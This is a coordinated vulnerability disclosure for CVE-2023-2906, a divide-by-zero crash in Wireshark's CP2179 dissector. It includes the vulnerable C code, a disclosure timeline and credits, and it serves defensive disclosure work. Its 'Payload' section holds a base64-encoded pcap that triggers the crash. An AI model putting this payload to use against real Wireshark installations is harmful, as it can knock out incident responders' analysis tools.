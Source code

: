 ```yaml
---
title: CVE-2023-2906
aliases: ["/cves/CVE-2023-2906.html"]
pubDate: 2023-08-24T13:37:00-05:00
---
```


# CVE-2023-2906: Wireshark CP2179 Parsing Divide By Zero DoS

[AHA!] has discovered a deinal-of-service issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Thursday, August 24, 2023. [CVE-2023-2906] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length provided by an attacker-crafted CP2179 packet, Wireshark versions 2.0.0 through 4.0.7 is susceptible to a divide by zero allowing for a denial of service attack. [CVE-2023-2906] appears to be an instance of [CWE-369]. Note that, according to the [patch notes](https://gitlab.com/wireshark/wireshark/-/issues/19229), this effect can only be achieved when a user triggers the vulnerable code patch with the "Decode As..." functionality of Wireshark (or the `-d` option for tshark), so this vulnerability is unlikely to be triggerable in an automated way.

# Technical Details

As can be seen in the below code from the `dissect_response_frame` function which handles parsing the different types of response frames as part of the SCADA protocol, [PG&E 2179 Protocol](https://library.e.abb.com/public/9cc84999c2239e1fc125795d003d05f8/RER620_PGE2179prot_306957_ENa.pdf).

When parsing a `TIMETAG_INFO_RESPONSE` message, a call is made to the Wireshark function `tvb_get_guint8()` (on line 723) which retrieves an 8 bit value from the pcap file. If a 0 value is provided within the `TIMETAG_INFO_RESPONSE` message for the value, a divide by zero error occurs (on line 724).

The relevant code snippet from `epan/dissectors/packet-cp2179.c` is:
```
 718                 case TIMETAG_INFO_RESPONSE:
 719                 {
 720                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_moredata, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 721                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_numsets, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 722
 723                     num_records = tvb_get_guint8(tvb, offset) & 0x7F;
 724                     recordsize = (numberofcharacters-1) / num_records;
 725                     num_values = (recordsize-6) / 2;      /* Determine how many 16-bit analog values are present in each event record */
 726
 727                     offset += 1;
```

<br/>

# Payload

A base64-encoded blob containing the pcap needed to trigger the vulnerability is provided below:

```
1MOyoQIABAAAAAAAAAAAAP9/AAD6AAAAAAAAAAAAAAAMAAAADAAAAAMAAAADAAAAAAAAAAAAAAAA
AAAAFAAAABQAAAABAAAAAQAAAAEAAAD5/wAAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAMA
AAAAAAAAAAAAAAwAAAAMAAAAAwAAAAMAAAAAAAAAAAAAAAAAAAAVAAAAFQAAAAMAAAADAAAAAgAA
APn/BACAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAQAAAA=
```

<br/>

# Attacker Value

By providing this poisoned set of packets, an attacker could crash the application (Wireshark, tshark, or possibly a custom application utilizing libwireshark) preventing further analysis. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. This leads to situations where a specially crafted packet could be used to prevent best incident response practices from taking place.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-23 (Thu): Initial findings presented at AHA! Meeting 0x00c8
* 2023-07-08 (Sat): PoC validated and this disclosure drafted.
* 2023-07-17 (Mon): Disclosed to the vendor via email at security@wireshark.org (per the vendor [website](https://www.wireshark.org/security/)).
* 2023-07-23 (Sun): Vendor acknowledged the vulnerability in [issue 19229](https://gitlab.com/wireshark/wireshark/-/issues/19229).
* 2023-08-23 (Wed): Vendor released fixed version [4.0.8](https://www.wireshark.org/docs/relnotes/wireshark-4.0.8.html).
* 2023-08-24 (Thu): Public disclosure of [CVE-2023-2906].

<br/>

----

[CVE-2023-2906]: https://takeonme.org/cves/CVE-2023-2906.html
[CWE-369]: https://cwe.mitre.org/data/definitions/369.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/
